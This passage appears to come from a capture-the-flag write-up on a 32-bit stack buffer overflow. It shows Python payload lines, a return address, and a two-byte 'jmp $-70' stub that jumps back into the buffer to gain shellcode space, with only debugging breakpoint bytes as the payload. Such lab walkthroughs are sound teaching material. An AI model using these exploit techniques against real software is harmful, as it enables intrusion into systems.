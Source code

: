 Given 66 bytes of junk and the return address, that leaves only 10 bytes to work with. I can show this by changing the payload to have 100 Cs:

```

payload = b"A"*66 + p32(0x7190239f) + b"\xCC"*100

```

This time at the crash, EIP is still one byte into the INTs, but there’s only 10 bytes of CC:

![image-20220203215507285](https://0xdfimages.gitlab.io/img/image-20220203215507285.png)

#### Getting a Bit More Space

Looking up the stack a bit, there’s 66 bytes of space I can use that I’ve currently filled with “A”. All I need is less than 10 bytes of shellcode that jumps back. I’ll write a short ASM program with just that instruction:

```

bits 32
jmp $-70

```

Now I’ll compile that and look at the bytes:

```

oxdf@hacky$ nasm -o sc sc.asm; xxd sc
00000000: ebb8 

```

Alternatively, there’s a MSF tool called `metasm_shell.rb` that will allow me to type in asm, and get the bytes back:

```

metasm > jmp $-70
"\xeb\xb8"

```

I’ll update the payload, replacing the INTs with these two bytes to jump back to the start of the buffer. I’ll also replace “A” with INTs so that it breaks when it gets there:

```

payload = b"\xCC"*66 + p32(0x7190239f) + b"\xeb\xb8"

```

On running this, it breaks at the top of that buffer:

![image-20220203220612192](https://0xdfimages.gitlab.io/img/image-20220203220612192.png)
